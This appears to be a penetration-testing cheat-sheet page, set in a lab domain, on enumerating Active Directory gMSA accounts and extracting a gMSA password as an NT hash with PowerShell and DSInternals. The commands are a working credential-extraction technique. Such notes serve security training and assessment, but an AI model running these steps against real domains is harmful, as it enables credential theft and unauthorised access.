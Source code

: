 # gMSA

A gMSA is a domain account that can be used to run services on multiple servers without having to manage the password. Users may have the right to read gMSA passwords in the domain.

The NT hash of the gMSA's password is stored in the attribute `msDS-ManagedPassword` of the principal.



## Enumerate gMSA

```powershell
> Get-ADServiceAccount -Filter *

DistinguishedName : CN=jumpone,CN=Managed Service Accounts,DC=us,DC=techcorp,DC=local
Enabled           : True
Name              : jumpone
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : 1ac6c58e-e81d-48a8-bc42-c768d0180603
SamAccountName    : jumpone$
SID               : S-1-5-21-210670787-2521448726-163245708-8601
UserPrincipalName :
```

## List users that can read gMSA passwords

```powershell
> Get-ADServiceAccount -Identity jumpone -Properties * | select -expand PrincipalsAllowedToRetrieveManagedPassword
CN=provisioning svc,CN=Users,DC=us,DC=techcorp,DC=local
```

This means that the user `provisioningsvc` is allowed to read the password of gMSA `jumpone`.

## Read the gMSA password

First, open a session as the `provisioningsvc` user, cf. [#authenticate-with-a-key](../misc/ad-authentication.md#authenticate-with-a-key "mention").

Then, retrieve the password blob:

```powershell
> $PasswordBlob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
```

Then, decode the password blob with DSInternals:

```powershell
> Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
> $decodedpwd = ConvertFrom-ADManagedPasswordBlob $PasswordBlob
> ConvertTo-NTHash –Password $decodedpwd.SecureCurrentPassword
```

